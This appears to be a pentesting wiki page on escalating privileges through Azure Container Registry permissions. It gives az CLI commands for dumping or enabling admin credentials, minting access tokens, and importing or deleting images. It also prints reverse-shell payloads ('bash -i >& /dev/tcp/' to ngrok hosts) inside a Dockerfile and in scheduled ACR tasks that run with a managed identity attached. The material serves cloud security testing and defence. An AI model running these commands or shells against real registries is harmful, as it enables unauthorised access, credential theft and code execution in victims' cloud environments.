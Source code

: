 # Az - Azure Container Registry Privesc

{{#include ../../../banners/hacktricks-training.md}}

## Azure Container Registry

Fore more information check:

{{#ref}}
../az-services/az-container-registry.md
{{#endref}}

### `Microsoft.ContainerRegistry/registries/listCredentials/action`

This permission allows the user to list the admin credentials of the ACR. This is useful to **get full access** over the registry

```bash
az rest --method POST \
--url "https://management.azure.com/subscriptions/<subscription-id>/resourceGroups/<res-group>/providers/Microsoft.ContainerRegistry/registries/<registry-name>/listCredentials?api-version=2023-11-01-preview"
```

In case the admin credentials aren't enabled, you will also need the permission `Microsoft.ContainerRegistry/registries/write` to enable them with:

```bash
az rest --method PATCH --uri "https://management.azure.com/subscriptions/<subscription-id>/resourceGroups/<res-group>/providers/Microsoft.ContainerRegistry/registries/<registry-name>?api-version=2023-11-01-preview" --body '{"properties": {"adminUserEnabled": true}}'
```


### `Microsoft.ContainerRegistry/registries/tokens/write`, `Microsoft.ContainerRegistry/registries/generateCredentials/action`, `Microsoft.ContainerRegistry/registries/generateCredentials/action`

These permissions allow the user to **create a new token** with passwords to access the registry.

To use the `az cli`to generate it as in the following example you will also need the permissions `Microsoft.ContainerRegistry/registries/read`, `Microsoft.ContainerRegistry/registries/scopeMaps/read`, `Microsoft.ContainerRegistry/registries/tokens/operationStatuses/read`, `Microsoft.ContainerRegistry/registries/tokens/read`

```bash
az acr token create \
    --registry <registry-name> \
    --name <token-name> \
    --scope-map _repositories_admin
```


### `Microsoft.ContainerRegistry/registries/listBuildSourceUploadUrl/action`, `Microsoft.ContainerRegistry/registries/scheduleRun/action`, `Microsoft.ContainerRegistry/registries/runs/listLogSasUrl/action`

These permissions allow the user to **build and run an image** in the registry. This can be used to **execute code** in the container.

> [!WARNING]
> However, the image will be executed in a **sandboxed environment** and **without access to the metadata service**. This means that the container will not have access to the **instance metadata** so this isn't really useful to escalate privileges

```bash
# Build
echo 'FROM ubuntu:latest\nRUN bash -c "bash -i >& /dev/tcp/2.tcp.eu.ngrok.io/17585 0>&1"\nCMD ["/bin/bash", "-c", "bash -i >& /dev/tcp//2.tcp.eu.ngrok.io/17585 0>&1"]' > Dockerfile
az acr run --registry 12345TestingRegistry --cmd '$Registry/rev/shell:v1:v1' /dev/null
```


### `Microsoft.ContainerRegistry/registries/tasks/write`

This is the main permission that allows to create and update a task in the registry. This can be used to **execute a code inside a container with a managed identity attached to it** in the container.

This is the example on how to execute a reverseh shell in a container with the **system managed** identity attached to it:

```bash
az acr task create \
    --registry <registry-name> \
    --name reverse-shell-task \
    --image rev/shell:v1 \
    --file ./Dockerfile \
    --context https://github.com/carlospolop/Docker-rev.git \
    --assign-identity \
    --commit-trigger-enabled false \
    --schedule "*/1 * * * *"
```

Another way to get a RCE from a task without using an external repository is to use the `az acr task create` command with the `--cmd` flag. This will allow you to run a command in the container. For example, you can run a reverse shell with the following command:

```bash
az acr task create \
    --registry <registry-name> \
    --name reverse-shell-task-cmd \
    --image rev/shell2:v1 \
    --cmd 'bash -c "bash -i >& /dev/tcp/4.tcp.eu.ngrok.io/15508 0>&1"' \
    --schedule "*/1 * * * *" \
    --context /dev/null \
    --commit-trigger-enabled false \
    --assign-identity
```

> [!TIP]
> Note that to assign the system managed identity you don't need any special permission, although it must have been enabled before in the registry and assigned some permissions for it to be useful.

To assign a **user managed identity also** you would need the permission `Microsoft.ManagedIdentity/userAssignedIdentities/assign/action` to do:

```bash
az acr task create \
    --registry <registry-name> \
    --name reverse-shell-task \
    --image rev/shell:v1 \
    --file ./Dockerfile \
    --context https://github.com/carlospolop/Docker-rev.git \
    --assign-identity \[system\] "/subscriptions/<subscription-id>>/resourcegroups/<res-group>/providers/Microsoft.ManagedIdentity/userAssignedIdentities/<mi-name>" \
    --commit-trigger-enabled false \
    --schedule "*/1 * * * *"
```

To **update** the repo of an existent task you can do:

```bash
az acr task update \
    --registry <registry-name> \
    --name reverse-shell-task \
    --context https://github.com/your-user/your-repo.git 
```


### `Microsoft.ContainerRegistry/registries/importImage/action`

With this permission it's possible to **import an image to the azure registry**, even without having the image locally. However, note that you **cannot import an image with a tag** that already exists in the registry.

```bash
# Push with az cli
az acr import \
  --name <registry-name> \
  --source mcr.microsoft.com/acr/connected-registry:0.8.0 # Example of a repo to import
```

In order to **untag or delete a specific image tag** from the registry you can use the following command. However, note that you will need a user or token with **enough permissions** to do it:

```bash
az acr repository untag \
    --name <registry-name> \
    --image <image-name>:<tag>

az acr repository delete \
    --name <registry-name> \
    --image <image-name>:<tag>
```



{{#include ../../../banners/hacktricks-training.md}}


